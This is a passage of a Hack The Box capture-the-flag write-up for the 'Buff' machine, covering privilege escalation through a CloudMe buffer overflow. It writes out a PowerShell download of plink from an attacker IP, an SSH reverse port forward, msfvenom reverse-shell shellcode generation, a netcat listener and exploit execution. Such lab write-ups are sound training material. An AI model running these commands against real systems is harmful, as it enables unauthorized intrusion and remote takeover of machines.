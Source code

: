 ![writeup.privesc.steps.2.2](Box%20Write-ups/htb.buff/screenshot10.png)  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
``` {.python .numberLines}
searchsploit cloudme

```

![writeup.privesc.steps.3.1](Box%20Write-ups/htb.buff/screenshot11.png)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
``` {.python .numberLines}
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8

```

![writeup.privesc.steps.4.1](Box%20Write-ups/htb.buff/screenshot12.png)  

![writeup.privesc.steps.4.2](Box%20Write-ups/htb.buff/screenshot13.png)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
``` {.python .numberLines}
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py

```

![writeup.privesc.steps.5.1](Box%20Write-ups/htb.buff/screenshot14.png)  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
``` {.python .numberLines}
type C:\Users\Administrator\Desktop\root.txt

```

![writeup.privesc.steps.6.1](Box%20Write-ups/htb.buff/screenshot15.png)  


\newpage


## References
[+] <https://www.hackthebox.eu/home/machines/profile/263>  
